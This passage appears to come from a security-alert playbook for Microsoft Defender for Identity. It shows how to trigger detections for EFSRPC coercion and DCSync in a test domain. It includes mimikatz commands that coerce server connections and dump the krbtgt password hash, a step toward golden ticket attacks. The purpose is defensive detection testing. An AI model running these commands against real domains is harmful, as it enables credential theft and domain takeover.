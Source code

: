 For details about this alert, see [Suspicious network connection over Encrypting File System Remote Protocol (external ID 2416)](lateral-movement-alerts.md#suspicious-network-connection-over-encrypting-file-system-remote-protocol-external-id-2416).

This detection is triggered when an attacker tries to take over an Active Directory domain by exploiting a flaw in the Encrypting File System Remote (EFSRPC) Protocol.

From a command line on a workstation, run with a local admin account:  

```cmd
mimikatz # privilege::debug  
mimikatz # misc::efs /server:10.4.0.100 /connect:10.4.0.13 /noauth
```

Tools available from: <https://github.com/gentilkiwi/mimikatz/releases>  

Detail in the alert:  

![Suspicious network connection over Encrypting File System Remote Protocol alert details.](media/playbooks/efsrpc-details.png)

## Suspected DCSync attack (replication of directory services)

For details about this alert, see [Suspected DCSync attack (replication of directory services) (external ID 2006)](domain-dominance-alerts.md#suspected-dcsync-attack-replication-of-directory-services-external-id-2006).

If attackers have the *DS-Replication-Get-Changes-All* permission, they can initiate a replication request to retrieve the data stored in Active Directory, such as the krbtgt's password hash.

In this detection, an alert is triggered when a replication request is initiated from a computer that isn't a domain controller.  

From a command line on a workstation, run with a least local admin account:  

```cmd
mimikatz # privilege::debug  
mimikatz # lsadump::dcsync /domain:msdemo.local /user:krbtgt
```

This will retrieve the krbtgt's password hash and move to a golden ticket attack.

Tools available from: <https://github.com/gentilkiwi/mimikatz/releases>  

You should see the activities and the alert in the client machine timeline:  

![Suspected DCSync attack (replication of directory services) alert.](media/playbooks/dcsync.png)  

In the alert, a user failed to retrieve the DCsync (not enough permission):  

![Suspected DCSync attack (replication of directory services) alert details.](media/playbooks/dcsync-details.png)  

## Suspected DCShadow attack (domain controller promotion) & (domain controller replication request)

For details about this alert, see [Suspected DCShadow attack (domain controller promotion) (external ID 2028)](domain-dominance-alerts.md#suspected-dcshadow-attack-domain-controller-promotion-external-id-2028) and [Suspected DCShadow attack (domain controller replication request) (external ID 2029)](domain-dominance-alerts.md#suspected-dcshadow-attack-domain-controller-replication-request-external-id-2029).
